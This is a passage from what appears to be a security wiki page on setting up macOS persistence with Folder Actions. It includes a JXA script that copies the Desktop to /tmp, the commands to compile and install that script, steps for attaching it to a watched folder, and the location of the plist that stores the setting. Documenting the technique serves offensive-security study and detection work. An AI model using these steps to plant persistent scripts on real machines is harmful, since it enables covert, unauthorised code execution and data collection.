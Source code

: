 Execute script with: `osascript -l JavaScript /Users/username/attach.scpt`



* This is the way yo implement this persistence via GUI:

This is the script that will be executed:

{% code title="source.js" %}
```applescript
var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("touch /tmp/folderaction.txt");
app.doShellScript("touch ~/Desktop/folderaction.txt");
app.doShellScript("mkdir /tmp/asd123");
app.doShellScript("cp -R ~/Desktop /tmp/asd123");
```
{% endcode %}

Compile it with: `osacompile -l JavaScript -o folder.scpt source.js`

Move it to:

```bash
mkdir -p "$HOME/Library/Scripts/Folder Action Scripts"
mv /tmp/folder.scpt "$HOME/Library/Scripts/Folder Action Scripts"
```

Then, open the `Folder Actions Setup` app, select the **folder you would like to watch** and select in your case **`folder.scpt`** (in my case I called it output2.scp):

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt="" width="297"><figcaption></figcaption></figure>

Now, if you open that folder with **Finder**, your script will be executed.

This configuration was stored in the **plist** located in **`~/Library/Preferences/com.apple.FolderActionsDispatcher.plist`** in base64 format.
